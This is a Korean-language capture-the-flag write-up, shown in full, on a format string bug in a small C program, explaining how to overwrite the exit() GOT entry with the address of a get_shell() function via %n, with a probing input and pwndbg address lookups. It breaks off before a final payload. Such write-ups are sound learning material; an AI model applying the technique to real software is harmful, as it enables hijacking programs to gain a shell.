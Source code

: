 ```C
void get_shell() {
    system("/bin/sh");
}
```

* 친절하게 `system("/bin/sh");`를 부를 수 있는 함수가 선언되어 있다.

```C
char buf[0x80];

initialize();

read(0, buf, 0x80);
```

* `read` 함수는 buf에 대한 크기에 대해서 read하기에 BOF가 불가능하다.

```C
printf(buf);
```

* `printf()`의 일반 형태가 아니다. 이렇게 인자가 잘못된 경우 **FSB**가 가능하다.


```C
exit(0);
```

* `exit(0);` 함수를 통해 무엇을 하던 종료가 되는 것을 알 수 있다. 하지만, **Partial RELRO**이기에 GOT Overwrite가 가능하다.

* `get_shell()`가 있으므로, `exit(0)`의 GOT를 `get_shell()` 주소로 덮어 씌우면 프로세스가 종료되는 것이 아닌 `system` 호출이 가능하다.

* **시나리오**

  * `printf(buf);`를 통한 입력값 위치 확인

  * 해당 위치를 통한 `get_shell()`주소 삽입

  * 주소 삽입은 형식 지정자를 통해서 진행

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/202891662-4bb5ad15-21b4-4fa7-aa0e-46f7c43a9537.jpg" width = 450>
</p>

위처럼 `AAAA.%x.%x.%x.%x.%x`를 입력 했을 때이렇게 첫번째 `%x` 서식 문자에 우리가 입력한 **AAAA**를 인자로 받는 것을 알 수 있다.

포맷 스트링에서 참조할 인자의 인덱스를 지정하는 방법으로는 필드의 끝을 `$`로 표기하는 것이다. `printf()`로 특정 주소의 값을 변경할 수 있는 format은 `%n`으로 인자에 현재까지 사용된 문자열의 길이를 저장하는 것이 있다.

> payload = **`exit_got 주소`** + **`get_shell 주소`**

그렇다면, get_shell의 주소만큼의 문자열을 넣어 해당 값을 **`%n`**를 통해서 exit_got에 넣으면 된다. 

```
pwndbg> p get_shell
$1 = {<text variable, no debug info>} 0x8048609 <get_shell>
```

```
pwndbg> p exit
$1 = {<text variable, no debug info>} 0x8048470 <exit@plt>
pwndbg> x/3i exit
   0x8048470 <exit@plt>:        jmp    DWORD PTR ds:0x804a024
   0x8048476 <exit@plt+6>:      push   0x30
   0x804847b <exit@plt+11>:     jmp    0x8048400
```
